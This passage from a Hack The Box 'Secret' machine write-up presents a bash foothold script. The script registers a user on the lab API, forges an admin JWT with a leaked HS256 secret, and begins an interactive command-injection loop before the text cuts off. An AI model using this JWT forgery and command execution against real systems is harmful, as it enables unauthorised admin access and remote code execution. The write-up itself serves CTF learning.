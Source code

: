 
I finally finished writing this pure exploit, It would have been a lot shorter if I had just showed the steps in here.<br>
But if you had asked me if it worthed, I would have definitely say YES!

The main references I used while writing this (öhm..öhm..., masterpiece):<br>

- [Bash CheetSheet](https://devhints.io/bash)

- [JWT Signing part](https://stackoverflow.com/a/46672439)


### [RCE Script](htb-secret-foothold-exploit.sh)

```bash
#!/usr/bin/env bash
# Author: Şefik Efe aka f4T1H
# https://github.com/f4T1H21/HackTheBox-Writeups/tree/main/Boxes/Secret/README.md#rce-script

echo -e "[i] Written with <3 by Şefik Efe aka f4T1H
[i] Hack The Box Secret Machine Foothold Exploit
"

url='http://10.10.11.120:3000/api'
ctype='Content-Type: application/json'
time=$(date +%s%N | cut -b1-13)
name=$time
email="root@${time}.com"
passwd='123456'

# Register
echo "[+] Registering low-level user ..."
curl -s -X POST -H "$ctype" -d '{"name":"'$name'", "email":"'$email'", "password":"'$passwd'"}' $url"/user/register" 1>/dev/null

# Login
echo "[+] Getting JWT ..."
jwt=$(curl -s -X POST -H "$ctype" -d '{"email":"'$email'", "password":"'$passwd'"}' $url"/user/login")

# Change name to 'theadmin'
echo "[+] Editing the JWT to become privileged ..."
jwt=$(jq -R '[split(".") | .[0],.[1] | @base64d | fromjson] | .[1].name="theadmin"' <<< $jwt)

# Sign changed token using HS256 algorithm
echo "[+] HS256 signing edited JWT with secret ..."
header=$(jq -c .[0] <<< $jwt)
payload=$(jq -c .[1] <<< $jwt)
alg='HS256'
secret='gXr67TtoQL8TShUc8XYsK2HvsBYfyQSFCFZe4MQp7gRpFuMkKjcM72CNQN4fMfbZEKx4i7YiWuNAkmuTcdEriCMm9vPAYkhpwPTiuVwVhvwE'

b64enc() { openssl enc -base64 -A | tr '+/' '-_' | tr -d '='; }
json() { jq -c . | LC_CTYPE=C tr -d '\n'; }
hs_sign() { openssl dgst -binary -sha"$1" -hmac "$2"; }

signed_content="$(json <<< $header | b64enc).$(json <<< $payload | b64enc)"
sign=$(printf %s "$signed_content" | hs_sign "${alg#HS}" "$secret" | b64enc)
jwt=$(printf '%s.%s\n' "${signed_content}" "${sign}")

echo -e "[+] Here comes your shell prompt!\n"; sleep 1
while true; do
    # Get command
    read -e -p "[dasith@secret /home/dasith/local-web]$ " cmd

    # URL encode command
```